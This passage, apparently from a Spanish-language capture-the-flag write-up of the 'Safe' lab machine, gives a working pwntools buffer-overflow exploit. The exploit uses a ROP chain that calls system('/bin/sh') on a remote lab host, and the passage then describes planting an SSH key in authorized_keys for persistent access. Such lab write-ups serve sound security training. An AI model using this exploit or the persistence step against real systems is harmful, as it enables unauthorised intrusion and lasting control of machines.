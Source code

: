 ![Objdump a Test]({{site.baseurl}}/assets/images/Safe/screensht_22-06-09_20_35_30.png)

Con esto ya lo tenemos todo, vamos a hacer un Exploit en Python.

*******************************

#Explotación


Vamos a crear un exploit en python3 que haga la llamada al programa, desborde el buffer y meta las instrucciones en los registros.

>\#!/usr/bin/python3

>from pwn import *

>context(terminal=['tmux', 'new-window'])

>context(os='linux', arch='amd64')

>p = remote("10.10.10.147", 1337)

>junk = b"A"*112 # a los 120 se restan los caracteres de /bin/sh\x00 = 7 caracteres + nullbyte = 8 caracteres

>bin_sh = b"/bin/sh\x00"

>\# gef➤  ropper --search "pop r13"

>\# 0x0000000000401206: pop r13; pop r14; pop r15; ret; 

>pop_r13 = p64(0x401206)
>null = p64(0x0)

>\#  0000000000401040 <system@plt>:

>\#  401040:	ff 25 da 2f 00 00    	jmp    *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5\>

>\#  40116e:	e8 cd fe ff ff       	call   401040 <system@plt>

>system_plt = p64(0x401040)

>\# 0000000000401152 <test>:

>test = p64(0x401152)

>payload = junk + bin_sh + pop_r13 + system_plt + null + null + test

>p.sendline(payload)

>p.interactive()

Lanzamos el exploit y nos na una shell de usuario con el usuario user.

![Shell de user]({{site.baseurl}}/assets/images/Safe/screensht_22-06-09_20_36_47.png)

Esta es una pseudo consola, lo  ideal seria poder usar una consola plena, revisamos el home del user y ya podemos ver la flag de user, ademas vemos que tiene .ssh con lo que podemos crear un par de claves en nuestro equipo y copiar la clave publica a la maquina safe como authorized\_keys y asi poder entrar por ssh como user sin que nos pida la contraseña.

![Authorized_keys]({{site.baseurl}}/assets/images/Safe/screensht_22-06-09_21_13_17.png)
